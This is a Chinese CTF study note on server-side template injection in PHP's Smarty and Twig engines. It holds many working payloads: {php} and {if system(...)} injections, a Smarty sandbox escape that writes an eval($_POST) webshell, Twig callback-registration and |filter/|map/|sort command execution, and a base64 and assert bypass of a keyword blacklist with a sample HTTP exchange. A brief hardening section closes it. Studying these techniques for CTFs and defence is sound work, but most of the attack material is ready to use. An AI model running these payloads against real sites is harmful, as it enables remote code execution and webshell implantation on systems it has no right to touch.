

# 🐘 PHP 模板引擎 SSTI 深度剖析：Smarty 与 Twig 底层编译与沙箱逃逸

> **核心机制**：不同于 Python 依赖 MRO 原型链回溯，PHP 模板引擎（如 Smarty、Twig）的底层设计核心是 **“AST 解析 $\rightarrow$ 编译为原生 PHP 缓存文件 $\rightarrow$ `include`/`eval` 执行”**。
> 一旦业务代码将用户不受信任的输入直接作为模板语法进行动态编译（例如 `eval:` 协议或动态模板载入），攻击者即可利用模板内置标签、管道过滤器、环境配置对象或沙箱校验缺陷，调用底层 PHP 危险函数达成 RCE！

---

## 0. 基础前置认知与小白扫盲：PHP 模板引擎为什么会演变成命令执行？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 什么是模板引擎？
* 程序员写 Web 页面时，不想把 HTML 和 PHP 代码混杂在一起，于是引入了 Smarty、Twig 等模板引擎。
* 它们允许前端页面写类似 `{username}` 或 `{{ username }}` 的占位符，后端自动把变量值填入。

---

### 2. 为什么会变成 RCE？
* **Smarty 的历史包袱**：
  * Smarty 早期版本为了让开发者灵活，竟然原生支持 `{php}system('whoami');{/php}` 这种直接在 HTML 里内嵌执行原生 PHP 代码的疯狂语法！
* **Twig 的调用链逃逸**：
  * Twig 虽然做了沙箱隔离，禁止直接调用 `system()`，但它暴露了一个全局对象 `_self`（代表当前模板环境自身）。黑客可以通过 `_self.env.registerUndefinedFilterCallback("system")`，将系统函数 `system` 注册为模板的未知过滤器，随后在插值时调用，成功突破沙箱！

---

## 一、PHP 模板引擎架构与渲染机制



---

## 二、Smarty 模板引擎注入全版本利用矩阵

Smarty 是 PHP 社区历史悠久的模板引擎。其语法使用单花括号 `{...}` 作为定界符。

### 1. Smarty 基础与常规利用标签

#### (1) `{php}` 标签（Smarty 2 及 Smarty 3 早期未开启严格模式）
若模板引擎允许 `{php}` 标签，可直接内嵌任意 PHP 代码：
```smarty
{php}system("cat /flag");{/php}
```
* **参数解析**：Smarty 编译器会将 `{php}...{/php}` 内的内容原封不动放入编译后的 PHP 文件中执行。
* *注：Smarty 3.1 之后该标签已被废弃并默认禁用。*

#### (2) `{literal}` 标签混淆与原生脚本支持
```smarty
<script language="php">system("cat /flag");</script>
```

#### (3) 核心利器：`{if}` 条件控制标签注入（最普遍利用点）
Smarty 的 `{if}` 标签在底层编译时，会将条件表达式直接作为原生 PHP `if (...)` 语句拼装！因此任何有效的 PHP 表达式均可在 `{if}` 内部求值：
```smarty
{if system('cat /flag')}{/if}
{if readfile('/flag')}{/if}
{if passthru($_GET['cmd'])}{/if}
```
* **底层机制分析**：
  Smarty 编译器解析 `{if condition}` 时，会调用 `Smarty_Compiler_If::compile()`。在没有开启安全策略（Security Policy）的情况下，条件体中的函数名会被直接输出为 `$this->compileTag('if', ...)` 生成的 PHP 代码：
  ```php
  <?php if (system('cat /flag')) { ?> ... <?php } ?>
  ```
  执行该 PHP 编译代码时立即触发命令执行！

---

### 2. Smarty 沙箱逃逸高级利用（CVE-2021-26119 与 CVE-2021-26120）

当 Smarty 开启了安全模式（`$smarty->enableSecurity()`），原生 PHP 函数（如 `system`、`exec`）会被安全策略拦截。此时需通过内部对象与运行时漏洞逃逸。

#### (1) `$smarty.template_object` 容器逃逸写文件（CVE-2021-26119）
* **影响版本**：Smarty $\le$ 3.1.38
* **原理剖析**：Smarty 在沙箱模式下，虽然限制了用户自定义函数的调用，但全局内置变量 `$smarty.template_object` 依然向模板环境暴露。该对象指向当前的 `Smarty_Internal_Template` 实例，顺藤摸瓜可拿到 `Smarty` 主引擎对象，并调用内置运行时写入类 `Smarty_Internal_Runtime_WriteFile::writeFile` 往 Web 根目录写入 PHP 后门文件。

#### 🔍 注入 Payload：
```smarty
{$smarty.template_object->smarty->disableSecurity()}
```
或者利用文件写入接口：
```smarty
{$s=$smarty.template_object->smarty}
{$s->getRuntime('Smarty_Internal_Runtime_WriteFile')->writeFile('shell.php','<?php eval($_POST[cmd]);?>',$s)}
```

#### 逐行参数拆解：
* `{$s=$smarty.template_object->smarty}`：获取主 Smarty 引擎实例。
* `getRuntime('Smarty_Internal_Runtime_WriteFile')`：动态实例化 Smarty 负责写缓存的内部运行时类。
* `writeFile('shell.php', '<?php ... ?>', $s)`：
  * 参数 1：目标写入路径（在当前 Web 目录下生成 `shell.php`）。
  * 参数 2：恶意 WebShell 代码。
  * 参数 3：Smarty 上下文对象。

---

## 三、Twig 模板引擎注入全版本深度利用

Twig 是 Symfony 框架默认的模板引擎，使用双花括号 `{{ ... }}` 输出变量，`` 执行逻辑。

### 1. Twig 1.x 经典沙箱逃逸（`_self.env` 回调注册）

在 Twig 1.x 环境中，模板内置变量 `_self` 指向当前编译的 `Twig_Template` 实例，通过其 `env`（`Twig_Environment`）可以动态操作过滤器与加载器。

#### 🔍 经典 Payload：
```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("cat /flag")}}
```
#### 逐参数解析表：
| 语句 / 参数 | 作用与底层执行逻辑 |
| :--- | :--- |
| `_self` | 指向当前模板实例 `Twig_Template` |
| `.env` | 获取 `Twig_Environment` 环境配置全局对象 |
| `registerUndefinedFilterCallback("exec")` | 将未定义过滤器的兜底回调函数注册为原生 PHP 函数 `exec` |
| `getFilter("cat /flag")` | 故意请求一个不存在的过滤器名 `"cat /flag"`，触发刚才注册的回调，等价于执行 `exec("cat /flag")` |

---

### 2. Twig 2.x / 3.x 现代利用：管道过滤器（Filter / Map / Sort）

在 Twig 2.x 与 3.x 中，官方移除了 `_self.env` 的直接暴露，上述经典链失效。安全研究员转而利用 Twig 强大的内置高阶函数与数组过滤器！

#### (1) `|filter` 管道过滤器执行
Twig 的 `filter` 用于使用回调函数过滤序列：
```twig
{{ ['cat /flag']|filter('system') }}
{{ ['id']|filter('passthru') }}
```
* **底层机制**：Twig 编译 `|filter` 时，底层调用 PHP 原生 `array_filter($array, 'system')`。
  数组中的每个元素作为参数传递给回调函数，即 `system('cat /flag')`！

#### (2) `|map` 管道过滤器执行（多参映射）
```twig
{{ ['cat /flag']|map('system')|join }}
```
* **底层机制**：调用 PHP 的 `array_map('system', ['cat /flag'])`，随后通过 `|join` 将执行返回结果拼接并回显在页面上！

#### (3) `|sort` 管道逃逸（CVE-2022-23614）
* **影响版本**：Twig 3.x < 3.3.8
* **利用语法**：
```twig
{{ ['cat /flag', 0]|sort('system') }}
```
* **底层机制**：`sort` 允许传入自定义排序函数，底层触发 `usort($array, 'system')`，将数组第一项作为系统命令调用！

---

## 四、实战靶场案例复现（CTF 经典赛题）

### 题目背景：PHP CMS 动态页面预览（基于 Smarty 3）
题目暴露一个参数 `?template=`，后台代码如下：

```php
<?php
require_once('./smarty/libs/Smarty.class.php');
$smarty = new Smarty();

$user_tpl = $_GET['template'];
// 开发者做了简陋的黑名单过滤
if (preg_match('/system|exec|passthru|shell_exec|`|\$/i', $user_tpl)) {
    die("Hacker detected!");
}

// 动态通过 string: 协议编译用户传入的内容
$smarty->display("string:" . $user_tpl);
?>
```

### 1. 过滤分析
* 黑名单拦截了常见命令执行函数：`system`, `exec`, `passthru`, `shell_exec`，反引号 `` ` ``，以及变量符号 `$`。
* 未拦截单花括号 `{}`，未拦截 PHP 5/7/8 原生函数反射或文件读取函数。

### 2. 绕过方案选择
1. **方案 A：利用文件读取函数避开命令执行**：
   ```smarty
   {readfile('/flag')}
   {file_get_contents('/flag')}
   ```
2. **方案 B：利用 `{if}` 配合未被拦截的危险函数**：
   ```smarty
   {if assert(base64_decode('c3lzdGVtKCdjYXQgL2ZsYWcnKTs='))}{/if}
   ```
   * 参数解析：`c3lzdGVtKCdjYXQgL2ZsYWcnKTs=` 解码后为 `system('cat /flag');`。
   * 完全没有命中黑名单中的关键字与 `$` 符号！

### 3. HTTP 交互验证：
```http
GET /preview.php?template={if%20assert(base64_decode('c3lzdGVtKCdjYXQgL2ZsYWcnKTs='))}{/if} HTTP/1.1
Host: ctf.challenge.local
User-Agent: Mozilla/5.0

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

flag{sm4rty_ssti_3sc4pe_succ3ssful!}
```

---

## 五、防御与加固规范

1. **绝对禁止动态拼装模板源码**：
   始终将模板文件静态化存储，用户输入只能作为数据字典传入赋值：
   ```php
   // ✅ 安全实践
   $smarty->assign('username', $_GET['name']);
   $smarty->display('user_profile.tpl');
   ```
2. **正确开启并严密配置沙箱**：
   * 在 Twig 中启用 `Twig\Extension\SandboxExtension`，并严格配置方法调用白名单与属性白名单，禁止未授权的全局对象反射与管道回调。
   * 升级 Smarty 至 $\ge$ 3.1.43 / 4.x，修补 CVE-2021-26119 等内置属性越权漏洞。

---

## 🔗 相关双向链接
- 上级模块：[[06-SSTI模板注入体系]]
- 前置知识：[[Jinja2黑名单全过滤绕过：无下划线无引号无点无数字对抗]]
- 下级拓展：[[Java模板引擎注入：Thymeleaf、FreeMarker与SpEL表达式执行]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
